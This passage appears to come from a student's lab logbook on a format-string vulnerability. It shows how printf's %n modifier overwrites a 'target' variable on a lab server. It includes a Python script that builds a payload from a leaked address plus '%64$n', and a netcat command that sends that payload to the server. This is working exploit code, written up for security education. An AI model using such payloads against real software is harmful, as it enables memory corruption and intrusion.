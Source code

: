     - We want to change the value of the `target` value. The only way to write to memory with `printf` is using the `%n` modifier, which takes a pointer and writes the number of characters that were printed by `printf` to the location pointed to by that variable. Therefore, we also need the address we are going to write to.
  
    - Inspecting the server logs, we can see the following log message:

        `server-10.9.0.5 | The target variable's address: 0x080e5068`

    - With this information, we can apply the same strategy as in the previous task, using `%64$n` instead of the `%64$s` sequence.

    - In our case, we created the payload with the help of a simple Python script we wrote. 

        ```python
        #!/usr/bin/python3
        import sys
        payload = (0x080e5068).to_bytes(4, byteorder='little') + b"%64$n"

        # Save the format string to file
        with open('badfile', 'wb') as f:
            f.write(payload)
        ```

2. Send the payload to the server, using `cat badfile | nc -N 10.9.0.5 9090`.

3. Analyze the server logs

    - As you can see, the `target` variable now has a value of `0x00000004`.

Terminal 1 | Terminal 2
:---------:|:---------:
![Server logs after the payload was sent to the server](images/logbook7/task3/00.png) | ![Sending the payload to the server](images/logbook7/task3/01.png)
